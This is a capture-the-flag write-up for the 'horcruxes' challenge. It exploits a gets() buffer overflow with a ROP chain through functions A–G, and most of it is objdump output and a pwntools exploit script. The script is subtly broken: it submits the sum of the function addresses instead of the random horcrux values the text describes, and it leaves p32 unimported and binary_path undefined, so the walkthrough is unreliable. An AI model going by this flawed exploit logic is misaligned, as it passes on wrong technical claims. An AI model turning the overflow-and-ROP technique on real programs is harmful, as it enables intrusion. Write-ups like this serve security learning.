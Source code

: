 
---

# **Challenge: Horcruxes**

## **Challenge Overview**
We are given a binary named `horcruxes`, and our goal is to retrieve the flag by exploiting the binary through **Return-Oriented Programming (ROP)**.

### **Initial Observations**
Upon running the binary, it presents the following menu:

```
Select menu :
```

Writing something prompts for input:

```
How much exp did you get?
```

From analyzing the disassembled binary, the function **`ropme`** handles this input. Our main observations:

1. **Vulnerable Input Handling:**
   - The function uses `gets()`, which is vulnerable to **buffer overflow**, allowing us to overwrite the return address.
  
2. **Initialization of Horcruxes:**
   - The function `init_ABCDEFG()` initializes seven functions randomly, named `A, B, C, D, E, F, G`, and stores their values.
 - **Expected output:**  
![alt text](image-1.png)

3. **ROP Attack Hints:**
   - The function name `ropme` suggests that the challenge requires using **Return-Oriented Programming (ROP)** to redirect execution.

---

## **Step 1: Identifying Vulnerabilities**

### **Analyzing the `ropme` function**
Disassembling the binary with `objdump` or `Ghidra`, we can confirm:

- Two `gets()` calls are present.
- The return value is compared against the sum of horcruxes.
- Buffer size is **120 bytes**, meaning anything beyond this overwrites the saved return pointer.

**Expected output:**  
![alt text](image.png)

---

## **Step 2: Gathering Function Addresses**

Using `objdump` to extract function addresses:

```bash
objdump -D horcruxes | grep "<A>"
```

**Expected output:**  
![alt text](image-2.png)

Similarly, find the `ropme` function:

```bash
objdump -D horcruxes | grep "<ropme>"
```

Addresses identified:

- A: `0x080485cb`
- B: `0x080485f8`
- C: `0x08048625`
- D: `0x08048652`
- E: `0x0804867f`
- F: `0x080486ac`
- G: `0x080486d9`
- Ropme: `0x08048706`

---

## **Step 3: Constructing the Payload**

We will construct a payload to:

1. Fill the buffer (`120` bytes).
2. Overwrite the return address to call functions `A` to `G`.
3. Redirect execution back to `ropme` for final input.

---

## **Step 4: Finding the Buffer Overflow Offset**

Through trial-and-error or debugging (`gdb`):

```bash
python -c 'print("A" * 120)' | ./horcruxes
```

Once buffer overflow is confirmed, proceed with constructing the payload.

---

## **Step 5: Creating the Exploit Script**

```python
# Function addresses (in little-endian format)
A = p32(0x080485cb)
B = p32(0x080485f8)
C = p32(0x08048625)
D = p32(0x08048652)
E = p32(0x0804867f)
F = p32(0x080486ac)
G = p32(0x080486d9)
ROP_ME = p32(0x08048706)

# Constructing the payload
payload = b"A" * 120  # Buffer overflow to reach EIP
payload += A + B + C + D + E + F + G  # Call functions in sequence
payload += ROP_ME  # Jump back to ropme to input the correct sum

# Start process
p = process(binary_path)

# Interact with the binary menu
p.recvuntil(b">> ")
p.sendline(b"1")  # Select play option

# Send the payload to trigger ROP
p.sendline(payload)

# Calculate the correct sum of horcrux values manually or script it
correct_sum = str((0x080485cb + 0x080485f8 + 0x08048625 +
                   0x08048652 + 0x0804867f + 0x080486ac + 0x080486d9) % (2**32))

p.sendline(correct_sum.encode())

# Get the flag output
print(p.recvall().decode())
```

---

## **Step 6: Explanation of the Exploit**

1. **Overflow the Buffer:**  
   - Fill with 120 bytes to overwrite the saved return pointer.

2. **Chained Function Calls:**  
   - Place the addresses of `A` to `G` sequentially.
   - Each function is called and adds its value to the stored sum.

3. **Return to `ropme`:**  
   - Once all functions have executed, return to `ropme` for input.

4. **Input Correct Sum:**  
   - Provide the correct sum calculated from function values.

---

## **Step 7: Running the Exploit**

1. Save the script as `exploit.py`.
2. Run the exploit:
   ```bash
   python exploit.py
   ```
3. Expected output:
   ```
   Toddler's Secure ROP Level
   >> 1
   How much exp did you get?
   Congratz!
   FLAG{...}
   ```

---

## **Key Takeaways**

1. **Understanding ROP:**
   - The challenge introduces Return-Oriented Programming by allowing us to chain function calls by overwriting the return address.

2. **Buffer Overflow Exploitation:**
   - Overflowing buffers to manipulate the return address can redirect control flow.

3. **Manual Exploit Construction:**
   - Identifying function addresses using `objdump`.
   - Calculating offsets and chaining function calls.

---

## **Possible Mitigations**

In a real-world scenario, mitigations include:

1. **Stack Canaries:** Prevent buffer overflows.
2. **ASLR (Address Space Layout Randomization):** Randomizes memory addresses.
3. **Non-Executable Stack:** Prevents execution of injected code.
4. **RELRO (Relocation Read-Only):** Protects function pointers.

---
